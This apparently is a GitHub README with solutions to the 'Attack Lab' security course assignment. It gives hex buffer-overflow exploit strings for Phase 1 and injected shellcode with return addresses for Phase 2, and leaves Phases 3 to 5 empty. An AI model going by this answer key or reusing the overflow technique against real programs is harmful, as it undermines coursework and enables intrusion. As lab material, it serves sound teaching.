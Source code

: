 # Attack Lab
See assignment details at attacklab.pdf.  
See guide at https://github.com/magna25/Attack-Lab/.

## Phase 1 Solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## Phase 2 Solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## Phase 3 Solution

## Phase 4 Solution

## Phase 5 Solution

